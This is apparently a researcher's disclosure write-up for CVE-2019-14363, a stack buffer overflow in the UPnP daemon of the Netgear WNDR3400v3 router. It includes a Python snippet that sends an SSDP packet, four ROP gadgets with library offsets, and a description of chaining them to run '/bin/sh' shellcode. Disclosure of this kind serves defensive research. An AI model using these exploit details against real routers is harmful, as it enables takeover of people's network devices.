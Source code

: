 # Netgear (WNDR3400v3) Buffer Overflow Via UPnP SSDP #

**Vendor**：Netgear

**Product**: N600 WiFi Dual Band Router (WNDR3400v3)

**Firmware Version**: V1.0.1.18_1.0.63

**Vendor Homepage**: https://www.netgear.com/support/product/WNDR3400v3.aspx

**CVE**: CVE-2019-14363

**NVD**: Pending

**PoC Script**: [netgear_upnp_poc.py](https://github.com/reevesrs24/CVE/blob/master/Netgear_WNDR2400v3/upnp_stack_overflow/netgear_upnp_poc.py)
## Vulnerability detail ##

1. There exists a stack-based buffer overflow in the ssdp_http_method_check function in the upnpd binary.
![alt text](screenshots/ghidra_upnp.png)

2. Sending a crafted UPnP SSDP packet allows for the $ra register to be overwritten.
```python
    ### UPnP Architecture Specs ###
    # M-SEARCH - Method for search requests
    # HOST - Multicast channed and port reserved for SSDP
    # MAN - Required by HTTP Exension Framework, defines the scope (namespace) of the extension
    # MX - MAximum wait time in seconds
    # ST: Required search target, pre defined values
    SSDP = arbitrary_string

    s = socket.socket(socket.AF_INET, socket.SOCK_DGRAM)
    s.settimeout(5)
    s.sendto(SSDP, ('239.255.255.250', 1900) )
    s.close()
```
3.  While the stack is executable it does however employ ASLR. 
![alt text](screenshots/memory_map.png)
4. A ROP chain can be used to execute shellcode on the stack.  Several libraries such as libc.so.0, libnat.so and libcrypt.so.0 
have static address spaces which can be used to chain ROP gadgets.
```
ROP Gadget 1
-------------
libnat.so - 0x0000c488 

addiu $a0, $zero, 0xf 
move $t9, $s6 
jalr $t9 
move $a2, $zero 

ROP Gadget 2
-------------
libc.so.0 - 0x00038800

move $t9, $s2 
lw $ra, 0x28($sp)
lw $s3, 0x24($sp) 
lw $s2, 0x20($sp) 
lw $s1, 0x1c($sp) 
lw $s0, 0x18($sp)
jr $t9 
addiu $sp, $sp, 0x30

ROP Gadget 3
-------------
libcrypt.so.0 - 0x0000203c

move $t9, $s2
jalr $t9
addiu $a1, $sp, 0x2

ROP Gadget 4
-------------
libc.so.0 - 0x00032a6c

move $t9, $a1
addiu $a0, $a0, 0x38
jr $t9 
move $a1, $a2
```
5.  This ROP chain can be used to execute shellcode on the stack.  PoC shellcode '/bin/sh' written by Sanguine (https://www.exploit-db.com/exploits/35868)
was used to test this (My shellcode game is weak). Below the [sh] process was executed. Although this process immediately terminates once gdb is exited.    
![alt text](screenshots/sh.png)
6.  Much of this analysis was modeled after a great write up by Lyon Yang titled "Exploiting Buffer Overflows on MIPS Architectures". (https://gsec.hitb.org/materials/sg2015/whitepapers/Lyon%20Yang%20-%20Advanced%20SOHO%20Router%20Exploitation.pdf)
